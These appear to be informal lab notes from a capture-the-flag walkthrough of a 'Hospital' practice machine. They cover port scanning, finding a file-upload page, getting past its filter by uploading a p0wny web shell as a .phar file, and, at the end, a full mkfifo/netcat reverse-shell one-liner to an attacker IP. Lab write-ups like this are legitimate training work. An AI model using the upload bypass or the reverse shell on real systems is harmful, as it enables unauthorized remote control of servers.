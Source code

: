 
---

## Enumeration
-`ip`= 10.10.11.241
-hospital.htb


```bash
┌──(pwn㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.10.11.241 

```
-what device hold the ip  10.10.11.241 ?
-/etc/hosts add the ip + dns hospital.htb + DC.hospital.htb
-ping it , DONE
```
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28) 

how?
it is possible to run Apache HTTP Server** and PHP on Windows 64-bit (Win64). This is commonly done using XAMPP, WampServer, or manual installation of Apache and PHP.


```
- `/phpmyadmin/` on xampp
-**XAMPP** is a free and open-source software stack used to set up a local web server environment on **Windows, Linux, and macOS**. It includes:
✅ **X** – Cross-platform (Runs on Windows, Linux, macOS)  
✅ **A** – Apache (Web Server)  
✅ **M** – MySQL/MariaDB (Database)  
✅ **P** – PHP (Scripting Language)  
✅ **P** – Perl (Scripting Language)

-3389/tcp remote desktop open
-8080 http + ubuntu !!
```bash
┌──(pwn㉿kali)-[~]
└─$ ping DC.hospital.htb
PING hospital.htb (10.10.11.241) 56(84) bytes of data.
64 bytes from hospital.htb (10.10.11.241): icmp_seq=1 ttl=127 time=76.1 ms

its windows !! ttl=128 windows default

```
-http://10.10.11.241:8080/register.php , found
- login 
-http://10.10.11.241:8080/index.php 
-![[Pasted image 20250204154723.png]]-upload ?/
-http://10.10.11.241:8080/uploads/ , exists but forbidden
-http://10.10.11.241:8080/uploads/whateveryouupladed.png <> check
	-it must appears
-![[1_F660tQgQUXVX2i7ydWeHwg.webp]]- i take a lock for hints and got :
  - .phar will worrk
- https://github.com/flozz/p0wny-shell?source=post_page-----ccd5eddaa9a8--------------------------------
```
http://10.10.11.241:8080/uploads/shell.phar

will run as web shell lets get interactive revesre shell vie
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 9996 > /tmp/f

```

---